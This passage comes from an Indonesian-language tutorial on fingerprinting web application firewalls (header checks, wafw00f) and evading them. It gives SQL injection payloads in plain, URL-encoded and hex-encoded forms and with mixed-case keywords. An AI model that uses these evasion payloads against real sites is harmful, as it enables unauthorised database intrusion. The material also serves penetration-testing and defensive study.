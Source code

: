 ### 🔹 1. Passive Detection  
- **Cek Header HTTP** - Banyak WAF meninggalkan jejak di header HTTP seperti:
  ```bash
  curl -I https://target.com
  ```
  Jika ada header seperti `Server: cloudflare`, kemungkinan target memakai Cloudflare WAF.

- **Cek Response Code** - Jika permintaan normal mendapatkan HTTP 200 tetapi payload berbahaya mendapatkan HTTP 403, maka ada kemungkinan WAF aktif.

### 🔹 2. Active Detection  
- **Menggunakan WAFW00F** - Tool otomatis untuk mendeteksi WAF:
  ```bash
  wafw00f https://target.com
  ```

- **Brute Force Bypass** - Mencoba berbagai payload umum untuk melihat apakah ada yang lolos.

---

## 🎭 Teknik Dasar Bypass WAF

### 🔸 1. Bypass dengan Encoding
Menggunakan encoding seperti URL encoding, Base64, atau Hex untuk menyamarkan payload.

- **Contoh SQL Injection tanpa encoding:**
  ```sql
  ' OR 1=1 --
  ```

- **Contoh dengan URL encoding:**
  ```sql
  %27%20OR%201%3D1%20--
  ```

- **Contoh dengan Hex encoding:**
  ```sql
  0x27204F5220313D31202D2D
  ```

### 🔸 2. Bypass dengan Case Manipulation
WAF yang lemah mungkin hanya mendeteksi kata kunci dalam huruf kecil.

- **Payload Standar:**
  ```sql
  SELECT * FROM users WHERE username='admin' --
  ```

- **Bypass dengan kapitalisasi acak:**
  ```sql
  SeLeCt * FrOm users WhErE username='admin' --
  ```

### 🔸 3. Bypass dengan White Spaces Alternatif
Menggunakan karakter tak terlihat seperti tab (`	`), newline (`
`), atau komentar SQL.
